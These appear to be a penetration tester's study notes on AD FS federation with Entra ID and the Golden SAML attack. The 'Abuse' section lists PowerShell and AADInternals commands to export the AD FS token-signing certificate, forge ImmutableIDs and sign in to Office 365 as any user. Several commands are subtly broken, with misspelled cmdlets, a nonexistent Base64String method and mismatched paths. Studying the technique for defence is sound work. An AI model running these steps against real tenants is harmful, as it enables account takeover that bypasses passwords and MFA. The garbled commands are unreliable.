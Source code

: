 - For federation a trust needs to be established between unrelated parties like on-prem Active Directory and Entra ID
- All authentication occurs in the on-prem environment and the user experiences SSO across all the trusted environments
- Users can access cloud applications by using their on-prem credentials

![[Pasted image 20241124003330.png]]

In any federation setup there are 3 parties:
- User or Client 
- Identity Provider (IdP)
- Service Provider (SP)

The identity provider authenticates the user and then the user can access a service on the service provider. 

Security Assertion Markup Language (SAML) is used for exchanging all the authentication and authorization information between the providers.
![[Pasted image 20241124003720.png]]

`https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps`

## ADFS
- AD FS is a claims-based identity model
- claims are simply statements made by users that are used primarily for authorizing access to claims-based applications located anywhere on the internet. 
- Claims for a user are written inside the SAML tokens and are then signed to provide integrity by the IdP.
- A user is identified by ImmutableID. It is globally unique and stored in Entra Id
- the ImmutableID is stored on-prem as ms-DC-ConsistencyGuid for the user and/or can be derived from the GUID of the user. 

# Abuse
- In ADFS, SAML Response is signed by a token-signing certificate 
- if the certificate is compromised, it is possible to authenticate to the Entra ID as any user in Entra ID.
- Just like our PTA abuse, password change for a user or MFA won't have any effect because we are forging the authentication response.
- the certificate can be extracted from the AD FS server with DA privileges and then can be used from any internet connected machine 
- this is what the infamous golden SAML attacks is

## On-Prem to Cloud
- from any on-prem machine as a normal domain user, get the ImmutableID of the target user.
`[System.Convert]::ToBase64String((Get-ADUser -Identity onpreuser | select -ExpandProperty ObjectGUID).tobytearray())`
- On AD FS server (as administrator)
` Get-AdfsProperties | select identifier`
- Check the IssuerURI from Entra ID too(use MSOL module and need GA privs)
` Get-MsolDomainFederationSettings -DomainName deffin.com |select IssuerUri`

Note when setting up AD FS using Entra Connect there is a difference between IssuerURI on ADFS server and Entra ID. Use the one from Azure AD.

- with DA privileges on-prem we can extract the ADFS token certificate from the ADFS server using AADInternals
` Export-AADIntADFSSigningCertificate`
- use the below command from AADInternals to access cloud apps as the user whose immutableID is specified
` Open-AADIntOffice365Portal -ImmutableID v1poc7Pz8kaT6JKQ== -Issuer http://deffin.com/adfs/services/trust -Pfx c:\user\asfsadmin\services\trust -PfxFileName c:\users\adfsadmin\Documents\ADFSSignCertifcate.pfx`

With DA privileges on-prem its possible to create ImmutableID of cloud only users with access to Entra Connect Sync credentials
- Create a realistic ImmutableID and set it for a cloud only user
` [System.Convert]::Base64String((New-Guid).tobytearray())`
` Set-AADIntAzureADObject -CloudAnchor "user-594...." -SourceAnchor "pwr...==`
- Using AADInternals export the token signing certificate. 
` Export-AADIntADFSSignCertificate`
- User the belwo command from AADInternals to access cloud apps as the user whose ImmutableID is specified. 
` OpenAADIntOfficae365Portal ImmutableID "pwr..." -Issuer http://deffin.com/adfs/service/trust -PfxFileName c:\users\adfsadmin\Documents\ADFSSignCertifcate.pfx -Verbose`

